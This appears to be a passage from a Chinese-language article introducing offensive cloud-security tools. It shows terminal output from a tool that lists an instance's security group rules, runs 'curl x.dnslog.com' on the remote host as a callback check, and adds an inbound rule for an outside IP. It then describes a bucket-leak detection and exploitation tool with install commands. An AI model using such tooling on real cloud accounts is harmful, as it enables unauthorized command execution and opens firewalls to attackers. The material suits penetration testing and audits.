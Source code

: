     # Protocol: TCP, Ip:0.0.0.0/0, PortRange:3389/3389, SourceRange:, Policy:Accept, NicType:intranet, CreatTime:2011-01-02T09:17:10Z  
    # Protocol: ICMP, Ip:0.0.0.0/0, PortRange:-1/-1, SourceRange:-1/-1, Policy:Accept, NicType:intranet, CreatTime:2011-01-02T09:17:09Z  
    # Protocol: TCP, Ip:0.0.0.0/0, PortRange:22/22, SourceRange:, Policy:Accept, NicType:intranet, CreatTime:2011-01-02T09:17:09Z  
    [-] please enter command, enter q or quit to quit, enter back to re-choose instance  
    [-] example: cmd=whoami    sec_group_info=SecruityGroupId    sec_group_add=SecruityGroupId:ip    sec_group_del=SecruityGroupId:ip  
    > cmd=curl x.dnslog.com  
    [-] command: curl x.dnslog.com  
    命令创建完成  
    命令执行完成  
    [-] please enter command, enter q or quit to quit, enter back to re-choose instance  
    [-] example: cmd=whoami    sec_group_info=SecruityGroupId    sec_group_add=SecruityGroupId:ip    sec_group_del=SecruityGroupId:ip  
    > sec_group_add=sg-secgroupid:8.8.8.8  
    入方向安全组新增成功  
    [-] please enter command, enter q or quit to quit, enter back to re-choose instance  
    [-] example: cmd=whoami    sec_group_info=SecruityGroupId    sec_group_add=SecruityGroupId:ip    sec_group_del=SecruityGroupId:ip  
    > q

### Cloud-Bucket-Leak-Detection-Tools[1]

六大云存储，泄露利用检测工具

    
    
    阿里云（Aliyun Cloud Oss）  
    腾讯云（Tencent Cloud COS）  
    华为云 （HuaWei Cloud OBS）  
    AWS （Amazon S3 Bucket）  
    Azure （Azure Blob）  
    GCP （Google Cloud Bucket)  
        
    六大云存储，泄露利用检测工具  
        
    pip3 install oss2  
    pip3 install colorlog  
    pip3 install argparse  
      
    git clone https://github.com/UzJu/Cloud-Bucket-Leak-Detection-Tools.git  
    python3 main.py -h

#### 引用链接
